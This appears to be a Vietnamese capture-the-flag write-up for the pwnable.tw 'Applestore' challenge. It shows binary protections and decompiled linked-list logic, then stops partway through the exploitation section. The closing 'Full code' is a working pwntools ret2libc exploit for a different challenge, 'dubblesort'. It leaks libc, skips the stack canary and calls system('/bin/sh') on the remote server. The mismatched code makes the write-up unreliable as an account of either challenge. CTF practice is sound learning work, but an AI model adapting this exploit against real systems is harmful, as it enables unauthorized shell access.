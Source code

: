 # pwnable.tw - Applestore

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
applestore_patched: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter ./ld-2.23.so, for GNU/Linux 2.6.24, BuildID[sha1]=35f3890fc458c22154fbc1d65e9108a6c8738111, not stripped

```
Đây là file 32-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8047000)
RUNPATH:  b'.'
```

Tiếp đến đưa file vào ida-32bit, ở đây mình đã sửa lại tên một số hàm và biến để dễ quan sát luồng thực thi

![gdb.png](images/gdb.png)

# 2. Ý tưởng

Bài này là 1 danh sách liên kết 2 chiều. Mỗi khi ta add thêm 1 sản phẩm vào thì nó sẽ thêm node ấy vào cuối danh sách bằng hàm `insert()`

![insert.png](images/insert.png)

Dòng thứ hai khai báo con trỏ "i" kiểu "_DWORD" và gán giá trị là địa chỉ của biến "myCart".

Trong vòng lặp "for", hàm duyệt qua các phần tử trong danh sách liên kết, bắt đầu từ địa chỉ của biến "myCart". Vòng lặp sẽ tiếp tục cho đến khi i[2] bằng 0,

tức là đến khi phần tử cuối cùng trong danh sách được tìm thấy.

Sau khi tìm thấy phần tử cuối cùng trong danh sách, con trỏ "i" trỏ đến phần tử cuối cùng đó. Dòng tiếp theo của hàm thêm phần tử mới vào cuối danh sách 

bằng cách gán giá trị của biến "a1" cho i[2].

Dòng tiếp theo của hàm cập nhật con trỏ phần tử trước đó của phần tử mới được thêm vào danh sách. Điều này đảm bảo rằng danh sách liên kết được duy trì.

Tiếp đến ta có hàm `check()`

![check.png](images/check.png)

Đầu tiên ta có thể thấy điều đặc biệt ở hàm check đó là nếu tổng giá trị của sản phẩm = 7174$

thì sẽ cho ta phần thưởng là 1 iPhone 8 - 1$

* Mình không kiếm được hàm `free()` ở đây nên không `heap_exploit` được

![compare.png](images/compare.png)

Mình thấy sự khác biệt giữa 2 hàm được thêm bằng `insert()` này:

Riêng `iPhone 8 - 1$` được lưu trên stack còn lại được lưu trên heap

# 3. Khai thác

Đầu tiên cứ tiến đến phần được nhận iphone-8 đã

```
for i in range(6):
		add(1)
for i in range(20):
		add(2)
checkout()
```

![checkout.png](images/checkout.png)

Có thể thấy riêng `iphone-8` có `fd` và `bk` trỏ ở stack


































































# Full code:

```
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("dubblesort_patched")
libc = elf.libc

local = False 
if local:
    p = process("./dubblesort_patched")
    gdb.attach(p,'''
    b*main+111
    c
    b*main+310''')
else:
    p = remote('chall.pwnable.tw', 10101)

elf = context.binary = ELF('./dubblesort_patched', checksec=False)

payload = b"a"*28
p.sendlineafter(b"What your name :", payload)
p.recvuntil(payload)

libc_base = int.from_bytes(p.recv(4),"little") - 1769482
system = libc_base + 0x3a940
binsh = libc_base + 0x158e8b

leak = int.from_bytes(p.recv(4),"little") + 1322
main = leak + 360


print("[+]Libc_base:    ", hex(libc_base))
print("[+]System:         ", hex(system))
print("[+]Bin_sh:         ", hex(binsh))

p.sendlineafter(b"How many numbers do you what to sort :", b"35")

def send_value(value):
    p.sendlineafter(b" number :", str(value))

for i in range(24):
    send_value(str(i))

p.sendlineafter(b" number :", b"-")
for i in range(8):
    p.sendlineafter(b" number :", str(system))
p.sendlineafter(b" number :", str(system+1))
p.sendlineafter(b" number :", str(binsh))

p.interactive()
```


